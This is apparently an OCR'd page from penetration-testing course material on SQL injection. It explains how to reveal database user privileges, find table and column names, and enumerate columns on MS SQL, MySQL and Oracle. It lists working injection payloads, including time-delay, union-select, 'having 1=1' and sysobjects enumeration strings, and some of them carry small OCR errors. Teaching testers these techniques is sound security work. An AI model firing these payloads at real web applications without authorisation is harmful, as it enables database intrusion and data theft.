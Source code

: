 - **Identify User-Level Privileges Revealed**
  Several SQL built-in scalar functions help the attackers to extract user-level privilege information such as user, current user, session user, and system user. Penetration testers can use these SQL commands to find if the target web application discloses the user privileges of the database.
  You can use the following commands:
  user or current_user, session_user, system_user
  ' and 1 in (select user) --
  ';  if user ='dbo' waitfor delay '0:0:5 '--
  ‘ union select if(user() like 'root@%',
  benchmark (50000,shal('test')), 'false' );

  The above commands help to find the administrative accounts of a database that are very crucial as they can perform complex tasks in the database. There are many default database administrator accounts, such as sa, system, sys, dba, admin, root, and many others. The DBO is a user that has implied permissions to perform all activities in the database. Any object created by any member of the sysadmin fixed server role belongs to DBO automatically.

  Finding user privileges helps attackers to target administrator accounts for escalated privileges using attacks, such as Brute force, to compromise the web application and its resources.

- **Discover the Database Structure**

  - **Determine table and column names**
    The database uses GROUP BY statement to organize the data based on clauses and   aggregate functions to, such as COUNT, SUM, AVG, etc., into columns. The HAVING   clause replaces the WHERE clause for aggregate functions for extracting the records   from the database using filters.

    You can use the following query to determine the table and column names by checking the records with a condition using the “having” clause to obtain the column names that are using the group by.
    ' group by columnnames having 1=1 --

  - **Discover column name types**
    The following SQL query will help to retrieve the column name types:
     *‘ union select sum(columnname ) from tablename --*
    
  - **Enumerate user defined tables**
    The following SQL query will help in enumerating the user defined tables:
     ' and 1 in (select min(name) from sysobjects where xtype = 'U'
     and name > ''.') --

- **Column Enumeration in the Database**
  The tester can directly query the metadata to enumerate the columns of a table for all types of databases. But the syntax of the query varies for different databases, as shown below.

  - **MS SQL**

    *SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects*
    *WHERE name = 'tablename ') sp_columns tablename*
    
  - **Mysql**
  
    *show columns from tablename*
  
  - **Oracle**
  
    SELECT * FROM all_tab_columns*
    *WHERE table_name='tablename '*
  